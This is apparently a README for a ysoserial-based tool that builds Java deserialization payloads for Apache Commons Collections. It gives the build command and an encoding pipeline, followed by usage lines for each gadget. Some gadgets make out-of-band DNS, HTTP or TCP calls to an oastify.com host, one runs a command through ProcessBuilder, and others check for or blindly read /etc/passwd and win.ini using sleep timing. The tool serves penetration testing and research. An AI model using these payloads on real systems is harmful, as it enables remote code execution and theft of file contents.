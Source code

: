# CommonsCollections Payloads

## Compilation

```
mvn clean package -DskipTests
```

## Payload generation, compression and encoding

```
java -jar target/ysoserial-all.jar CommonsCollectionsX <args> | gzip | base64 -w 0 | sed -e 's/\+/%2B/g' -e 's/\//%2F/g' -e 's/\=/%3D/g'; echo
```

## Usage

### CommonsCollectionsDnsRequest

```
CommonsCollectionsDnsRequest "abcdefghijklmnopqrstuvwxyz123456.oastify.com"
```

### CommonsCollectionsGetURL

```
CommonsCollectionsGetURL "https://abcdefghijklmnopqrstuvwxyz123456.oastify.com"
```

### CommonsCollectionsIfFileExistsSleep7s

```
CommonsCollectionsIfFileExistsSleep7s "/etc/passwd"
CommonsCollectionsIfFileExistsSleep7s "c:\\windows\\win.ini"
```

### CommonsCollectionsProcessBuilder

```
CommonsCollectionsProcessBuilder "nslookup abcdefghijklmnopqrstuvwxyz123456.oastify.com"
```

### CommonsCollectionsReadFileIfStartsWithSleep7s

```
CommonsCollectionsReadFileIfStartsWithSleep7s "/etc/passwd" "cm9vdA=="
CommonsCollectionsReadFileIfStartsWithSleep7s "c:\\windows\\win.ini" "OyBmb3IgMTYtYml0IGFwcCBzdXBwb3J0"
```

### CommonsCollectionsSleepSeconds

```
CommonsCollectionsSleepSeconds 7000
```

### CommonsCollectionsTcpConnection

```
CommonsCollectionsTcpConnection "abcdefghijklmnopqrstuvwxyz123456.oastify.com" 443
```

## References

- https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html
- https://deadcode.me/blog/2016/09/18/Blind-Java-Deserialization-Part-II.html
- https://github.com/frohoff/ysoserial

